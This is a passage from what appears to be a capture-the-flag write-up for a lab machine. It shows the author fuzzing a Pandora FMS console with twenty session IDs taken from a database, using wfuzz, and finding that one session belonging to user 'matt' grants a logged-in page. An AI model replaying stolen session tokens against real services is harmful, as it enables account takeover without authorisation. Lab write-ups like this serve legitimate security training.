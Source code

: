 
There are a few hundred rows that have session ids but no user associated with
them, which is why I ignore those with the `--where`.

I don’t totally understand why daniel has so many sessions, but there’s also
one for matt.

#### Fuzz Sessions

To quickly test these sessions, I’ll drop all 20 into a file, and run `wfuzz`:

    
    
    oxdf@hacky$ wfuzz -u http://pandora.panda.htb:9001/pandora_console/ -b PHPSESSID=FUZZ -w sessions 
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://pandora.panda.htb:9001/pandora_console/
    Total requests: 20
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000000002:   200        247 L    665 W    14153 Ch    "346uqacafar8pipuppubqet7ut"
    000000004:   200        247 L    665 W    14153 Ch    "5i352tsdh7vlohth30ve4o0air"
    000000009:   200        247 L    665 W    14153 Ch    "f0qisbrojp785v1dmm8cu1vkaj"
    000000003:   200        247 L    665 W    14153 Ch    "4nsbidcmgfoh1gilpv8p5hpi2s"
    000000007:   200        247 L    665 W    14153 Ch    "9vv4godmdam3vsq8pu78b52em9"
    000000008:   200        247 L    665 W    14153 Ch    "agfdiriggbt86ep71uvm1jbo3f"
    000000010:   200        247 L    665 W    14153 Ch    "g0kteepqaj1oep6u7msp0u38kv"
    000000005:   200        247 L    665 W    14153 Ch    "69gbnjrc2q42e8aqahb1l2s68n"
    000000001:   200        247 L    665 W    14153 Ch    "09vao3q1dikuoi1vhcvhcjjbc6"
    000000006:   200        247 L    665 W    14153 Ch    "8m2e6h8gmphj79r9pq497vpdre"
    000000013:   200        247 L    665 W    14153 Ch    "j6cbj3ng5243q6ikad06ad65bp"
    000000012:   200        247 L    665 W    14153 Ch    "hsftvg6j5m3vcmut6ln6ig8b0f"
    000000015:   200        247 L    665 W    14153 Ch    "o3kuq4m5t5mqv01iur63e1di58"
    000000014:   200        247 L    665 W    14153 Ch    "jecd4v8f6mlcgn4634ndfl74rd"
    000000016:   200        247 L    665 W    14153 Ch    "oi2r6rjq9v99qt8q9heu3nulon"
    000000011:   200        1393 L   4720 W   76805 Ch    "g4e01qdgk36mfdh90hvcc54umq"
    000000019:   200        247 L    665 W    14153 Ch    "u5ktk2bt6ghb7s51lka5qou4r4"
    000000017:   200        247 L    665 W    14153 Ch    "pjp312be5p56vke9dnbqmnqeot"
    000000018:   200        247 L    665 W    14153 Ch    "rgku3s5dj4mbr85tiefv53tdoa"
    000000020:   200        247 L    665 W    14153 Ch    "u74bvn6gop4rl21ds325q80j0e"
    
    Total time: 0.794442
    Processed Requests: 20
    Filtered Requests: 0
    Requests/sec.: 25.17489
    

One returns a much longer page! It just so happens to be the one assigned to
matt.

#### User Session
